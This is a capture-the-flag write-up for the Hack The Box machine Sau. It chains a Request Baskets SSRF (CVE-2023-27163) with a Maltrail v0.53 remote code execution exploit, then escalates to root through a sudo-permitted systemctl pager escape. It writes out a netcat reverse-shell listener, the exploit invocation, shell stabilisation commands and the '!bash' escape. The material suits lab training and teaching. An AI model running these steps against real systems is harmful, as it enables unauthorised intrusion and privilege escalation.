




# Hack The Box Sau Writeup


Sau is an easy difficulty machine from Hack The Box. 

While playing this machine, we encounter concepts including server side request forgery (SSRF), vulnerable software, pagers, and a recent CVE (at the time of writing). 

# Enumeration

We begin with some reconnaissance. 

## Nmap

Our first step is to scan the box with `nmap` to find out which ports are open. 

```bash
nmap -sC -sV TARGET-IP
```

After letting `nmap` run for a bit, we get the following output:

```
Nmap scan report for TARGET-IP
Host is up (0.049s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 31 Dec 2023 07:20:18 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 31 Dec 2023 07:19:52 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 31 Dec 2023 07:19:52 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SERVICE-FINGERPRINT-REMOVED
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.95 seconds
```

There's quite a bit of output here. I've removed the unrecognized service fingerprint to save you from an even bigger wall of text. We can see that the following ports are open:

- 22 - SSH
- 80 - ¯\\\_(ツ)_/¯
- 55555 - ¯\\\_(ツ)_/¯

`nmap` is telling us that port 80 is *filtered*, meaning that it can't tell if the port is open or closed. It's also telling us that there is an unrecognized service running on port `55555`. 

## Request Baskets

Let's open up our web browser and connect to the service running on port `55555` by going to the following URL:

```
http://TARGET-IP:55555
```

We're presented with the following web page:



A quick google of `request baskets` tells us that it is an application used for collecting and inspecting HTTP requests. There's also a link to the GitHub repository at the bottom of the page. 

Notice that the site also tells us the version of Request Baskets that is running: `1.2.1`. If we google for `request basket 1.2.1 vulnerability`, we get results back describing a server side request forgery vulnerability. 

## CVE-2023-27163

We now know two things:

- Request Baskets version `1.2.1` is vulnerable to server side request forgery
- Port 80 is *filtered*, meaning it may be open, but just not accessible from the outside

We can abuse the SSRF vulnerability to access the service on port 80.

To get there, all we need to do is:

1. Create a new basket



2. Configure the basket to forward incoming HTTP requests to `http://localhost:80`



3. Visit the basket URL



## Maltrail

After abusing the SSRF vulnerability to reach port 80, we see a partially complete web page with some interesting details on it. A quick Google of `Maltrail` tells us that it is a system used for detecting malicious network traffic. We can also see a version number at the bottom of the page: `Powered by Mailtrail (v0.53)`. If we put *that* into Google, we find out that this particular version of `Maltrail` contains a remote code execution vulnerability. We can abuse this to gain a foothold on the system. 

# Foothold

Our Googling turns up an excellent [exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) that we can use to get a reverse shell. 

After cloning the respoistory, we need to supply the script with three parameters:

- Our attacking machine IP
- Our listening port
- Target URL

Because Maltrail is listening on port `80`, and all traffic to port `80` is being filtered, the target URL that we're going to supply is going to be the *request basket* that we just configured to forward traffic to port `80`. In this instance, we're chaining the SSRF and RCE vulnerabilities together. This will allow the script to bypass the filter and exploit the vulnerable Maltrail service. 

First, we need to set up a listener: 

```
nc -lvnp YOUR-PORT
```

With that set up, we can now go ahead and run the exploit script: 

```
python3 exploit.py YOUR-IP YOUR-PORT http://TARGET-IP:55555/YOUR-BASKET-ID
```

We should now see a shell appear on our waiting listener:

```
connect to [YOUR-IP] from (UNKNOWN) [TARGET-IP] 38960
$       
```

This shell isn't very stable as hitting `CTRL+C` will immediately kill it. Before going to grab the user flag, we should stabilise the shell. 

## Stabilise Shell

To make our shell more reliable, we can use python to create a new shell, and then perform some additional configuration to allow us to clear the screen and kill processes as we normally would if we were logged in with SSH. 

First, we create a new shell using python:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Next, we set the terminal emulator environment variable to `xterm`. This tells the terminal emulator to behave as a Linux terminal:

```
export TERM=xterm
```

Next, we set the size of the terminal. On our attacking machine, we can find out the number of rows and columns that our terminal should use by opening up another terminal *of the same size with respect to the screen* and type in the following:

```
stty -a
```

We will then be shown the number of rows and columns required:

```
rows 59; columns 116;
```

Going back to our reverse shell, we can set the number of rows and columns with the following command:

```
stty rows 59 cols 116
```

Finally, we set the terminal to *raw mode*, and turn off echoing to ensure that the characters that we type aren't echoed back to us. From our reverse shell, we will *background* it using `CTRL+Z`, then execute the following command to change the terminal mode and bring the shell back to the foreground. 

```
stty raw -echo;fg
```

Our shell should now be fully stable, allowing us to kill processes with `CTRL+C` and clear the screen with `clear`. 

## User Flag

Now that we have a fully stable shell, we can go and grab the user flag from our user's home directory. 

# Privilege Escalation

Now that we have a foothold on the system, we want to find a way to become `root`. 

A good place to start when looking for privilege escalation vectors is `sudo`. The `sudo` command allows users that are permitted to use it to run commands as the `root` user (or a different user, depending on the configuration). We can check our user's `sudo` permissions with the following command:

```
sudo -l
```

Most of the time, this will require a password, but it is still worth checking since `sudo` can be granted without requiring a password to use it, which is what appears to be the case here:

```
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$ 
```

It looks like our user is allowed to use `sudo` *without a password* to check the status of the Maltrail service using `systemctl`. This gives us a very easy way to become `root`. To explain why, we first need to understand what a `pager` is. 

**Note:** The following is only going to work ***if you have a stabilised shell!*** Make sure you have one before continuing. 

## Pagers

A terminal *pager* is a program that enables users to view (but not modify) a file, and scroll through that file one line at a time. Some examples of common Linux pagers include `more`, and `less`. An interesting feature of some pagers (such as `less`) is that they allow you to execute commands. I think you can see where this is going. 

## Path to Root

`systemctl` displays its output inside `less`. When we run `sudo systemctl status`, we get an instance of `less` running as `root`. 

To execute commands inside of `less`, we type a `!`, following by the command that we wish to execute. We can abuse this ability to create a root shell inside of `less`. To do so, we first run the following command inside of our reverse shell:

```bash
sudo systemctl status trail.service
```

This will print out the status of the Maltrail service inside of `less`. From here, we can open a root shell by using the following command:

```
!bash
```

We should now have root shell open. 

```
root@sau:/opt/maltrail#
```

We can now go and grab the flag from `/root`

Congratulations, you just pwned Sau!

# Conclusion

This machine taught us some valuable lessons. 

- Always update your software packages to avoid being vulnerable to security vulnerabilities such as the one we saw in Maltrail
- Avoid disclosing software version numbers
- When granting someone `sudo` privileges, always be aware of the *full capabilities* of the programs that you're allowing them to run
- Require the user to enter their password to perform any kind of privileged operation

# References

- [NIST National Vulnerability Database - CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163)
- [Terminal Pager](https://en.wikipedia.org/wiki/Less_(Unix))
- [GTFOBins - systemctl](https://gtfobins.github.io/gtfobins/systemctl/)
- [Maltrail Exploit - GitHub](https://github.com/spookier/Maltrail-v0.53-Exploit)